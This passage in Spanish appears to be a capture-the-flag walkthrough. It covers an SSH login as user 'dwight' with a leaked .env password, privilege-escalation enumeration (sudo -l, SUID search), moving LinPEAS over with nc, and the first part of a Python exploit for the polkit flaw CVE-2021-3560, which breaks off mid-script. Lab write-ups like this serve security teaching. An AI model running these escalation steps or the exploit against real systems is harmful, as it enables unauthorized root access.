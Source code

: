 > Este archivo _.env_, como menciona su nombre, sirve para asignar variables de entorno para la elaboración de un proyecto
{: .prompt-tip}

Recordamos que el puerto **22 (ssh)** está abierto y que en este chat nos encontrabamos como el usuario `dwight` (lo sabemos si miramos el archivo /etc/passwd con el bot), entonces usando la contraseña nos logeamos y pa-dentro:

![Foothold](foothold.png){: .shadow }

## Privilege Escalation

* * *

Ya dentro como el usuario `dwight` solo nos queda escalar privilegios a `root` entonces hacemos una ejecución básica de comandos para listar binarios que podemos ejecutar como **SUDO** `sudo -l` o que tengan el permiso **SUID** `find / -perm -4000 2>/dev/null`:

![SUDO-SUID](sudo_suid.png){: .shadow }

Lamentablemente no logramos nada, así que recurrimos a la herramienta [LinPEAS](https://github.com/carlospolop/PEASS-ng) que nos permite buscar diferentes rutas a explotar y poder **escalar privilegios en el sistema**. Una vez instalado lo pasamos a la máquina víctima con `nc`:

![NcTransferLin](nc_transfer.png){: .shadow }

Ahora solo le damos permisos de ejecución `chmod +x linpeas.sh`, ejecutamos `./linpeas.sh` y de primeras encontramos una vulnerabilidad para `sudo 1.8.29`:

![CVELinPEAS](cve_linpeas.png){: .shadow }

Esta vulnerabilidad [_CVE-2021-3560_](https://www.hackplayers.com/2021/06/escalado-de-privilegios-mediante-polkit.html) se basa en el servicio **polkit**, el cuál se encarga de _gestionar la autorización entre los procesos sin privilegios hacia los privilegiados_.

Para la explotación hice un script en `python` que nos proporcionará las credenciales del usuario con privilegios:

```python
#!/usr/bin/python3

import sys, signal, time, subprocess, shlex, random, pdb, os, pwd

# colors
def inRed(s): print("\033[91m {}\033[00m" .format(s), end="")
def inGreen(s): print("\033[92m {}\033[00m" .format(s), end="")
def inYellow(s): print("\033[93m {}\033[00m" .format(s), end="")
def inMagenta(s): print("\033[95m {}\033[00m" .format(s), end="")

# ctrl + c
def signal_handler(signum, frame):
    inRed("\n[!] Exiting..."); sys.exit()

signal.signal(signal.SIGINT, signal_handler)

# create user
def createUser(default_user):
    time.sleep(2)
    exit_user, counter = False, 0
    inYellow("\n[+] Trying to create default user...\n\n")
    while not exit_user:
        # start and kill the process until the user is created
        time.sleep(0.5)
        inYellow("\t[-] Attempt"); inRed(f"{counter}\n")
        counter += 1
```